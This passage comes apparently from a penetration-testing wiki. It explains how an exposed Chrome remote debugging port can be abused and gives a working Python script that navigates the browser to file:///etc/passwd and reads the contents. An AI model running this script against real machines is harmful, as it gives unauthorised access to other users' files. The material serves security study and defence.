 {% hint style="warning" %}
Previously it was possible due to [chrome issue 40090539](https://issuetracker.google.com/issues/40090539) to CSRF the `/json/new?url=` endpoint, but this has been **fixed** since 2022. Now, CORS denies such requests by malicious websites because a `PUT` method is required.

If you're able to execute code in the `localhost:9222` origin somehow, you can still use this to open other protocol's URL such as `chrome://` and `file:///etc/passwd`.
{% endhint %}

### WebSocket

Commands to chrome are sent through the `webSocketDebuggerUrl`, which you can also directly access to have more control, and not be limited by the GUI. One interesting way of abusing this is to first **navigate** to a `file://` URL ([`Page.navigate`](https://chromedevtools.github.io/devtools-protocol/tot/Page/#method-navigate)), and then request the HTML content of the page using JavaScript ([`Runtime.evaluate`](https://chromedevtools.github.io/devtools-protocol/tot/Runtime/#method-evaluate)) to read arbitrary files.&#x20;

If you find this **port exposed** by a higher-privileged user on a shared system, for example, you can abuse it in Python like so:

```python
from time import sleep
import requests
import websocket
import json

def page_navigate(ws, url):
    payload = {
        "id": 1,
        "method": "Page.navigate",
        "params": {
            "url": url
        }
    }
    ws.send(json.dumps(payload))
    return json.loads(ws.recv())

def get_current_html(ws):
    payload = {
        "id": 2,
        "method": "Runtime.evaluate",
        "params": {
            "expression": "document.documentElement.outerHTML"
        }
    }
    ws.send(json.dumps(payload))
    return json.loads(ws.recv())["result"]["result"]["value"]

targets = requests.get("http://localhost:9222/json").json()
websocket_url = targets[0]["webSocketDebuggerUrl"]

ws = websocket.create_connection(websocket_url)
sleep(1)
print(page_navigate(ws, "file:///etc/passwd"))
sleep(3)
print(get_current_html(ws))
```
